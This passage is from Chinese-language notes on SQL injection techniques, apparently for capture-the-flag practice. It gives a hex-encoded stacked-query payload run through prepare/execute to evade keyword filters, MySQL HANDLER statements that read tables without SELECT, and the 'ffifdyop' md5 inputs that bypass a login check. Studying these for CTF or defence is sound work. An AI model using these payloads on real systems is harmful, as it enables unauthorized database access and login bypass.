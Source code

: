 ###  prepare预处理(绕一些过滤)

例如想执行:

```
select * from `1919810931114514`
```

但是`select`等关键字被过滤了

```
1';Set@payload=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execpayload from @payload;execute execpayload;#
//这里先将本来想要执行的select * from `1919810931114514`进行16进制编码
//然后使用Set语句将编码后的语句赋值给一个变量: Set@变量名=变量值
//使用prepare语句对查询语句进行预处理,这个过程里会进行编码转换:prepare 预处理后的变量名 from @变量名
//最后执行预处理后的语句:execute 预处理后的变量名
```

<br>

### handler

>`handler`语句是`mysql`的专用语句
>
>`mysql`除可使用`select`查询表中的数据，也可使用`handler`语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过`handler`语句并不具备`select`语句的所有功能。它是`mysql`专用的语句，并没有包含到SQL标准中。

```
handler 表名 open as xxx; //打开一个表,返回一个名为xxx的句柄
handler xxx read first; // 读该表的第一行数据
handler xxx read next; // 读该表的下一行数据
handler xxx close;
或者
handler 表名 open;
handler 表名 read first;
handler 表名 read next;
handler xxx close;
```

<br>

### md5_sql注入

假设服务器的查询语句为: 其中`$pass`是用户输入的内容

```
select * from 'admin' where password=md5($pass,true)
```

此时如果要注入,可以传:

```
ffifdyop
129581926211651571912466741651878684928
```

这两者在生成二进制的`md5`后可以包含`...' or .. `这样的**万能密码**,能够达到注入目的

